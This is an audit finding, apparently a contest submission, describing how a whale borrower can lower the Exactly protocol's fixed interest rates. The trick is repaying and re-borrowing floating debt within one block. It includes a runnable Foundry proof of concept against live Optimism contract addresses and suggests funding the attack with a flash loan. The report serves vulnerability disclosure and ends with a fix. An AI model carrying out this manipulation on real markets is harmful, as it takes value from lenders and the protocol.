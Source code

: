 Itchy Candy Bat

high

# Fixed interest rates can be manipulated by a whale borrower

## Summary

A whale borrower can manipulate the fixed interest rate by repaying a huge amount of funds, taking a fixed loan, and borrowing the funds previously repaid.

## Vulnerability Detail

The fixed interest rate is calculated based on the utilization rates in that market, the higher the utilization, the higher the fixed rate. A whale borrower can manipulate the fixed rate in just one block by repaying a huge loan, taking a fixed loan with a lower rate, and borrowing the loan previously repaid again. 

When borrowing from a fixed pool, the fixed interest rate is calculated here: 

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L313-L319
```solidity
  uint256 memFloatingAssetsAverage = previewFloatingAssetsAverage();
  uint256 memFloatingDebt = floatingDebt;
  uint256 fixedRate = interestRateModel.fixedRate(
    maturity,
    maxFuturePools,
    fixedUtilization(pool.supplied, pool.borrowed, memFloatingAssetsAverage),
    floatingUtilization(memFloatingAssetsAverage, memFloatingDebt),
    globalUtilization(memFloatingAssetsAverage, memFloatingDebt, floatingBackupBorrowed)
  );
```

To calculate the utilization of the market, we use the average of the total assets, this is to prevent the manipulation of the rate by depositing and withdrawing in the same block. However, the floating debt used to calculate the utilization is not an average, but just the current value. This will allow an attacker to manipulate the total debt in just one block, lowering the fixed rate. 

## Impact

A whale borrower can manipulate the fixed interest rate by repaying a huge amount of funds, taking a fixed loan with a lower rate, and borrowing the funds previously repaid again. 

## PoC

The following PoC executes this attack on the live contracts of Exactly on the Optimism chain. The test can be pasted into a new file within a forge environment. Also, the `.env` file must include the variable `OPTIMISM_RPC_URL` for the test to run. The test can be executed with the following command:

```solidity
forge test --match-test test_manipulate_utilization_lower_rate --evm-version cancun
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import {Market} from "protocol/contracts/Market.sol";
import {FixedLib} from "protocol/contracts/utils/FixedLib.sol";
import {Test} from "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
}

contract TestManipulationRate is Test {
    Market marketUSDC = Market(0x81C9A7B55A4df39A9B7B5F781ec0e53539694873);
    Market marketWSTETH = Market(0x22ab31Cd55130435b5efBf9224b6a9d5EC36533F);

    IERC20 usdc = IERC20(0x7F5c764cBc14f9669B88837ca1490cCa17c31607);
    IERC20 wsteth = IERC20(0x1F32b1c2345538c0c6f582fCB022739c4A194Ebb);

    uint256 public optimismFork;
    string OPTIMISM_RPC_URL = vm.envString("OPTIMISM_RPC_URL");

    function setUp() public {
        optimismFork = vm.createSelectFork(OPTIMISM_RPC_URL);
        assertEq(optimismFork, vm.activeFork());
    }

    function test_manipulate_utilization_lower_rate() public {
        vm.rollFork(119348257); // Abr 28
        uint256 maturity = 1729728000; // Latest maturity
        uint256 liquidity = 3e18;
        uint256 borrowAmount = 1e18;

        // Simulate that a whale has borrowed a lot from the wstETH market
        address whale = makeAddr("whale");
        vm.startPrank(whale);
        deal(address(usdc), whale, 5_000_000e6);
        usdc.approve(address(marketUSDC), type(uint256).max);
        marketUSDC.deposit(5_000_000e6, whale);
        marketUSDC.auditor().enterMarket(marketUSDC);

        for (uint i = 0; i < 35; i++) {
            marketWSTETH.borrow(20e18, whale, whale);
        }
        vm.stopPrank();

        uint256 snapshot = vm.snapshot();

        // Now, borrow from fixed pool and store the fee
        deal(address(wsteth), address(this), liquidity);
        wsteth.approve(address(marketWSTETH), liquidity);
        marketWSTETH.deposit(liquidity, address(this));
        marketWSTETH.auditor().enterMarket(marketWSTETH);
        marketWSTETH.borrowAtMaturity(
            maturity,
            borrowAmount,
            type(uint256).max,
            address(this),
            address(this)
        );
        (uint256 principal1, uint256 fee1) = marketWSTETH.fixedBorrowPositions(
            maturity,
            address(this)
        );

        // Reverse the borrow and decrease utilization first
        vm.revertTo(snapshot);
        vm.startPrank(whale);
        wsteth.approve(address(marketWSTETH), type(uint256).max);
        marketWSTETH.repay(700e18, whale);
        vm.stopPrank();

        // Borrow again from fixed pool and store the fee
        deal(address(wsteth), address(this), liquidity);
        wsteth.approve(address(marketWSTETH), liquidity);
        marketWSTETH.deposit(liquidity, address(this));
        marketWSTETH.auditor().enterMarket(marketWSTETH);
        marketWSTETH.borrowAtMaturity(
            maturity,
            borrowAmount,
            type(uint256).max,
            address(this),
            address(this)
        );
        (uint256 principal2, uint256 fee2) = marketWSTETH.fixedBorrowPositions(
            maturity,
            address(this)
        );

        // With the original utilization, the fee is higher
        assertEq(principal1, borrowAmount);
        assertEq(fee1, 0.582518181735455386e18); // The fee is ~58% of the borrow amount

        // After the utilization is manipulated, the fee is a LOT lower
        assertEq(principal2, borrowAmount);
        assertEq(fee2, 0.011389232448094875e18); // The fee is ~1% of the borrow amount
    }
}
```

**Note**: The attacker can get a flash loan to repay/borrow the huge variable loan to lower the fixed rate.

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L313-L319

## Tool used

Manual Review

## Recommendation

To mitigate this issue is recommended to use an average of the floating debt to calculate the fixed utilization rate. Implementing a mechanism similar to how the average of the total assets is calculated will prevent this attack from happening. 
